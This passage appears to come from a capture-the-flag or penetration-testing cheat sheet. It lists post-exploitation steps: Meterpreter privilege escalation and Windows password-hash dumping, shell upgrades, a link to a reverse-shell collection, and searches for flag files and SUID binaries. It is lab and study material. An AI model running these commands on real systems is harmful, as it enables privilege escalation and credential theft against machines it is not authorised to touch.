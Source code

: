 ```

meterpreter > getuid
Server username: els\els
meterpreter > getsystem
…got system (via technique 1)
```

<b>Dumping the Password Database</b>

For example, you can dump the passwords database and save it for an offline cracking session. The hashdump module dumps the password database of a Windows machine

`meterpreter > hashdump`

## <u>Collection of Reverse shell [Commands]</u>

`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md`

# <b><u>Interactive Shell</u></b>

## <u>python/python3 Interactive Shell</u>

Check if `python/python3` is available in system

`which python`
`which python3`

`python -c 'import pty;pty.spawn("/bin/bash")'`

## <u>Bash Interactive Shell</u>

`bash -i`

`SHELL=/bin/bash script -q /dev/null`


# <b><u>Find Commands</b></u>

## <u>Find files</u>

`find / -type f -name "*flag.txt" 2>/dev/null`

## <u>Find SUID Files</u>

`find / -user root -perm -4000 -print 2>/dev/null`

`sudo -l`

# <b><u>ARP Spoofing</b></u>
